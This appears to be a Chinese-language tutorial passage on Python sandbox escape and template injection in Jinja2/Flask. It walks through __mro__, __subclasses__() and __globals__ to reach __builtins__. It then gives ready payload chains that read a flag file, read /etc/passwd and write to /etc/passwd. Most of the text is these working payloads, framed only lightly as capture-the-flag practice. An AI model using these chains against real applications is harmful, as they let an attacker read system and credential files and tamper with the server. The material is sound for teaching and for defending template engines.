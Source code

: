 > __base__ 和 __mro__ 都是用来寻找基类的。

**基本流程**

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

查看其引用 __builtins__

Python 程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于 builtins 却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块。

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

这里会返回 dict 类型，寻找 keys 中可用函数，直接调用即可，使用 keys 中的 file 以实现读取文件的功能：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()
```

**读写文件**

读文件：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

写文件：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write()
```

存在的子模块可以通过 .index() 来进行查询，如果存在的话返回索引，直接调用即可。

